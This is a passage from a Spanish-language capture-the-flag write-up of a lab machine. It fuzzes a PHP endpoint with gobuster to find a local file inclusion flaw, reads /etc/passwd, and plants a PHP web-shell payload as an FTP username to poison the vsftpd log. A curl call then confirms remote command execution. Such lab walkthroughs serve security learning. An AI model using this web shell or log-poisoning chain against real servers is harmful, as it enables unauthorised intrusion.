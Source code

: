 Por aquí no ha habido suerte, vamos a intentar lo mismo pero leyendo un fichero en busca de un LFI:

~~~bash
❯ gobuster fuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -u "dev.medusa.hmv/files/system.php?FUZZ=/etc/passwd" -b 400,404 --exclude-length 0
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dev.medusa.hmv/files/system.php?FUZZ=/etc/passwd
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Excluded Status codes:   400,404
[+] Exclude Length:          0
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/16 16:51:59 Starting gobuster in fuzzing mode
===============================================================
Found: [Status=200] [Length=1452] http://dev.medusa.hmv/files/system.php?view=/etc/passwd
~~~

Hemos encontrado el parámetro adecuado y podemos leer el fichero /etc/passwd de la máquina. Vamos ahora a intentar conseguir el RCE.


### Log poisoning

Cuando tenemos un LFI, lo que nos permite es leer ficheros del sistema, de forma que si recordamos, teníamos los puertos 21 y 22 abiertos, los cuales estarán generando logs.
De esta forma, vamos a poner como login de usuario FTP un payload con el fin de obtener una ejecución remota de comandos (RCE).

~~~bash
❯ ftp 192.168.1.135
Connected to 192.168.1.135.
220 (vsFTPd 3.0.3)
Name (192.168.1.135:kaian): <?php system($_REQUEST['cmd']); ?>
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> exit
221 Goodbye.
~~~

Ahora vamos a cargar el log generado (la ruta es /var/log/vsftpd.log) y probar el payload que hemos agregado con el comando "id":

~~~bash
❯ curl 'http://dev.medusa.hmv/files/system.php?view=/var/log/vsftpd.log&cmd=id'
Thu Mar 16 16:09:34 2023 [pid 531] CONNECT: Client "::ffff:192.168.1.150"
Thu Mar 16 16:10:13 2023 [pid 530] [uid=33(www-data) gid=33(www-data) groups=33(www-data)
] FAIL LOGIN: Client "::ffff:192.168.1.150"
~~~
